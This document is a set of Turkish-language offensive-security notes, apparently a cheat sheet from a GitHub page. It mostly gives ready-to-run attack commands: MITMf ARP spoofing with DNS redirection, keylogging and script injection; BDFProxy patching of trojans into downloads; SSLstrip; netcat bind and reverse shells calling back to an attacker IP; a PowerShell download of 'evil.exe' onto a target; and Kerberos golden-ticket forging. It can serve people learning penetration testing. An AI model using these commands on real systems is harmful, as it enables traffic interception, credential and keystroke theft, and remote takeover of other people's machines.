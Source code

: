 VPN :
* Mozilla Firefox tarayıcıda Vpn kullanımı için web tarayıcı adres kısmına “about:config” gir.
“media.peerconnection.enable” -> false yap.  (Gerçek ip adresinin vpn kullanımında bazı yerlerde geçmesini engeller.)
Vpnbook ‘a gir. Openvpn sekmesinden indirilen vpn dosyasını “unzip” ile çıkar. “openvpn açılacakportadı.ovpn” (Yükleme yaparken tarayıcı pencereleri kapat)
* Opera tarayıcı içinde Vpn var.
*** www.dnsleaktest.com -> Hangi ülke ip’sinde olduğunu görme. Gerçek ip mizi bulunabilir mi test eder.
TOR Browser :
Kaliye Tor Kurma;
 “apt-get install tor -y”
“apt-get install proxychains”
leafpad /etc/proxychains.conf
	#dynamic_chain	//# işaretini sil
	#strict_chain		//# işareti ekle
	En alttaki socks4 -> socks5 yap. Kaydet
Tarayıcıda : proxy ayarları -> manuel ayarları seç. socks host : 127.0.0.1  port: 9050 gir
Tor ağını başlat	=>	“service tor start”
**Siteden girilen ip adresi değişti. Komut satırında ise hala eski ip mevcut. Onunda değişmesi için;
“proxychains curl icanhazip.com”	=> Yazacağın her komutun başına proxychains yaz, ip gizlenir.

MITM (Man in the Middle Framework):
Yüklemek için 	->	“apt-get install mitmf”
“mitmf --arp --spoof --gateway modem_ip --target hedef_ip -i eth0”
Güvenli Https isteklerini Http olarak açtırır. Hsts kullanan sitelerde çalışmaz. (Hsts: Adres satırına elle http girsen bile seni https sayfasına atar. Facebook ve gmail hsts kullanıyor)
MITM DNS
Sahte Dns adreslerine yönlendirme yapar.İstediğimiz ip adresine yönlendiririz.
“leafpad /etc/mitmfmitmf.conf” -> Açılan dosyada [[[A]]] yazan yer girilen sitenin yönlendirildiği ip nin yazıldığı yer. (*.hotmail.com = 192.168.1.1)
Yönlendirmeyi başlatma :
“mitmf --arp --spoof --gateway modem_ip --target hedef_ip -i eth0 --dns”

Ekran Görüntüsü Alma:
“mitmf --arp --spoof --gateway modem_ip --target hedef_ip -i eth0 --screen --interval 20” (20 saniye)
Görüntülerin kaydedildiği yer : /var/log/mitmf
Hata verirse : “pip install Twisted=15.5.0”
Klavye Tuşlarını Takip Etmek:
“mitmf --arp --spoof --gateway modem_ip --target hedef_ip -i eth0 --jskeylogger”
Java Script Kodlarını Çalıştırmak:
“mitmf --arp --spoof --gateway modem_ip --target hedef_ip -i eth0 --inject --js-payload “alert(‘...’);”

BDF (Backdoor Factory) Proxy:
Hedef birşey indirmek istediğinde biz trojanımızı o dosyanın içine yamalıyoruz. Bunun için;
1-	Aynı ağda olmak
2-	Man in the middle olmak
3-	BDF Proxy ayarlarını yapmak gerekir.

“leafpad /etc/bdfproxy/ bdfproxy.cfg”
1-	proxy mode = transparent
2-	Hedef işletim sistemi neyse ordaki host ip yerine kendi ip mizi yazıyoruz.
“ip tables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080”
(80’den gelen bağlantıyı 8080’e yönlendir)
“bdfproxy” yaz. Saldırıyı başlat.
MITM saldırısını başlat. Dinleme modu için;
“msfconsole -r /usr/share/bdfproxy/.... .rc (bdfproxy nin dinlediği dosya yolu)
SSL Strip Çalıştırma (Https’i Http’ye Çevirme)
“ip tables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000”

“sslstrip”
Ettercap çalıştırma:
“ettercap -Tq -M arp:remote -S -i wlan0 /192.168.1.1//  /192.168.1.15//”
// -S -> sslstrip kendimiz yaptığımız için S koymalıyız.
Virüslü Dosyayı Görsel Dosya İle Birleştirme:






BIND SHELL , REVERSE SHELL

BIND SHELL
Hedef üzerinde komut çalıştırılır. Gelen istekleri onaylayacak port açar. Biz hedefteki açılan porta istek göndeririz. Hedef isteği kabul eder.
Örnek;
Saldırgan makine	: nc -vvn hedef ip port
Hedef makine		:nc.exe -lvp port -e cmd.exe  //Önceden dosyanın o pc de olması gerekir
REVERSE SHELL
Hedef üzerinde komut çalıştırılır. Hedeften bize bağlantı isteği gelir. Biz dinleme modunda bekleriz ve gelen isteği kabul ederiz.
Örnek;
Saldırgan makine	: nc -lvp port
Hedef makine		:nc.exe -vvn saldırgan_ip port -e cmd.exe  //Bağlantıdan sonra cmd.exe çalışır.
***Düzgün bir shell almak için;
python -c ‘import pty;pty.spawn(“/bin/bash”)’

Uzaktan Bağlantı Kurmak (Windows)
winexe
winexe --user=Administrator%Parola ||hedef ip “cmd”    //Hedef komut satırına ulaşma
psexec

NETCAT
Sistemler arası iletişim kurmayı sağlar.
Netcat ile TCP port tarama:
nc -nvv -z 192.168.1.100 1-50  //port aralığını tarar.
Netcat ile shell alma:
1. Dinleme için	=>	nc -lvp 4444
2. Komut	=>	nc -e /bin/sh kendi ipmiz 4444
	
NETSTAT
Bilgisayarın gelen ve giden bağlantılarını, bu bağlantılara neden olan programları, pid numaralarını veren bir komuttur.
cmd =>  “netstat -anob”	daha detaylı =>  “netstat -anobf”
Kapatmak istediğin pid no varsa;
cmd => “taskkill /F /PID 2715”
Görev yöneticisinde çalışan programları komut satırında görmek için;
cmd =>	“tasklist”  yada  “tasklist /fi “PID EQ 2715”   //sadece o pıd numarasında çalışanı getirir
Hangi portların dinlendiğini görme;
cmd =>	“netstat -antp”
a:	all
t:	tcp bağlantıları getirir
u:	udp bağlantıları getirir
p:	pid hangi uygulamayı kullanıyor

STEGANOGRAFI
steghide
Resim içine veri saklama, içindeki veriyi okuma yada dışarı çıkarmaya yarar.
Veri saklamak için;
steghide --embed -ef (saklanacak veri) -cf (içine gömülecek dosya) -p (parola) -sf (oluşturulacak dosya adı) -e (şifreleme metodu) -z (sıkıştırma derecesi) -v (verbose)
Kontrol için;
steghide --info (kontrol edilecek dosya) -p (parola)
Veriyi açmak için;
steghide --extract -sf (şifrelenmiş dosya) -p (parola) -xf (oluşturulacak dosya adı)
Open Stego
Java destekli ortamlarda çalışır
Invisible Secret 4
Puffer 4.04
Xiao Steganography 2.61
S-Tools

Damgalama (Watermarking)
Bir dosyanın telif hakkını sağlayabilmek için o dosyanın içine gömme işlemine watermarking denir.
binwalk
Bir dosya içinde gömülü başka dosya olup olmadığını görürüz.

Hedef Sisteme Dosya Atma
wget
“wget dosya yolu url adresi”

scp
“scp dosya yolu  kullanıcı adı@hedef ip:/tmp/”
Örnek:	scp /var/www/html/evil.sh  msfadmin@192.168.1.10:/tmp/

netcat
Hedefte netcat yüklüyse;
“nc -lvp 4444 >evil.sh.2”	=> Hedefte dinlemeye aldık. Gelen dosyayı evil.sh.2 olarak kaydet.
kendi pc mizde;
“nc 192.168.1.12 4444 <evil.sh

powershell
1.	Apache servisi çalışıyor olacak
2.	İlgili dosya apache dizininde olacak
“powershell.exe (New-Object System.Net.WebClient).Download.File(‘http://ip_adresi/evil.exe’,’C:\Users\Default\evil.exe’)”



Load Balance Detector
Kali üzerinde “lbd” aracı ile hedefte yük dengeleyici olup olmadığını tespit ederiz. Özellikle Ddos saldırılarındaki yükü dengelemek için kullanılan bir güvenlik sistemidir.
“lbd site adı”

Mobil (Android) Güvenliği

Kullanılan araçlar = apktool , jadx (apk yada ipa uzantılı dosyaların içeriğindeki kodları okumaya yarar.
AndrodBugs = otomatik analizler gerçekleştirir, uygulamanın kullandığı güvenlik önlemlerini gösterir.
Sanal Android Uygulama = Android studio , Genymotion, Android x86 ( Fiziksel cihaz yerine sanal android oluşturma)
Taşınabilir Android Pentest Aracı = Appie (Windows)
Yapman gereken işlemler

1	Apk kurmadan önce nelere karşı önlem alınmış onları bilmek gerekir.
2	Normal kullanıcı gibi apk yı yükle ve nasıl çalıştığını anlamak için kurcala.
3	Uygulamanın yaptığı işlemleri izlemek için wireshake ve burp aracı ile network ve veri trafiği izlenebilir.
4	Depolama alanları ve uygulama loglarının incelenmesi


FTP 
 Wireshark ile FTP üzerinden aktarılan verinin dışarıya kayıt edilebilmesi için,
•	ftp-data filtresinden faydalanabilirsiniz.
•	RAW olarak kayıt etmeniz gerekmektedir.
Adb Shell ile telefona bağlantı yapılabilir.




Veritabanı
Sqlite
Veritabanı dosyasına bağlanma =  Sqlite3 database_adı
Tablo bilgilerini görme		= PRAGMA table_info(tablo adı)
Verileri getirme			= SELECT * FROM tablo adı

GOLDEN TICKET
Kerberos golden ticket oluşturma
run post/Windows/escalate/golden_ticket 
“golden_ticket_create -h”
-d = domain tam adı
-g = grup yetki numaraları
-i = grup kullanıcı id si
-k = ntlm hashi kerberos
-s = domain sid değeri
-u = kullanıcı adı
-t = nereye kaydedileceği
Sid bulma = wmic useraccount get name, sid
Kerberos_ticket_use	/ ticket yolu
Kerberos_ticket_list

